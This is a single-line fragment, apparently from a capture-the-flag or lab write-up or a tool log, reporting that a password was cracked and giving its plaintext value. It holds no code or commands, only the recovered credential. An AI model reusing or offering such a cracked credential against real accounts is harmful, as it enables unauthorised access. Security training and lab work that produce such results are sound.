**Result**: Password cracked as `Ticketmaster1968`
